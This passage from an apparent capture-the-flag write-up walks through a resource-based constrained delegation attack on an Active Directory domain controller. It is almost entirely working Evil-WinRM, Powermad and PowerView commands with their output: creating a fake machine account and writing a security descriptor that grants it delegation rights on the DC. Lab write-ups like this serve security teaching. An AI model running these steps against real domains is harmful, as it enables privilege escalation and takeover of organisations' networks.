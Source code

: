 Check that the `msds-allowedtoactonbehalfofotheridentity` is empty, which it is:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC
```

### Create FakeComputer - PowerMad

Used the Powermad `New-MachineAccount` to create a fake computer:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
[+] Machine account 0xdfFakeComputer added
```

I need the SID of the computer object as well, so I’ll save it in a variable:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $fakesid
S-1-5-21-1677581083-3380853377-188903654-5601
```

### Attack

Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Verify that there is an ACL with the `SecurityIdentifier` of my fake computer and it says `AccessAllowed`.


```bash
*Evil-WinRM* PS C:\Users\support\Documents> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor.DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5601
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```
